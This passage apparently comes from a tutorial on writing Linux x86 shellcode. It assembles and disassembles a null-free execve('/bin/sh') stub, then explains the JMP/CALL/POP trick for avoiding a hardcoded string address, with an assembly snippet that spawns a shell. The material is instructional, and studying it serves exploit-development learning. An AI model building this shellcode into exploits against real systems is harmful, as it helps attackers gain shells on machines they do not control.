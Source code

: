 Also, we are not expecting any NULLs

Now assemble and link:

    $nasm -f elf32 execve.nasm -o execve.o
    $ld -m elf_i386 execve.o -o execve

Let's check the opcodes:

~~~
$objdump -d execve

execve:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    %eax,%eax
 8048082:	b0 0b                	mov    $0xb,%al
 8048084:	bb 90 90 04 08       	mov    $0x8049090,%ebx
 8048089:	31 c9                	xor    %ecx,%ecx
 804808b:	31 d2                	xor    %edx,%edx
 804808d:	cd 80                	int    $0x80
~~~

Awesome, no null bytes as expected. However, we have `mov    $0x8049090,%ebx`. This line indicates we are using a hardcoded address (the shellcode string address). To avoid it and therefore make our shellcode more reliable, we are going to apply the JMP/CALL/POP technique.

# Why CALL/POP?

IMHO it is easier to understand JMP/CALL/POP if we first analyse the CALL/POP part. The idea is to explore the fact that whenever you `CALL` something, the first thing it does is pushing the next instruction address into the stack.

Consider this snippet:

~~~
section .text

global _start

_start:
    call realStuff
    shell: db  '/bin/sh', 0

realStuff:

    xor eax, eax
    mov al, 0xb

    pop ebx

    xor ecx, ecx
    xor edx, edx

    int 0x80
~~~
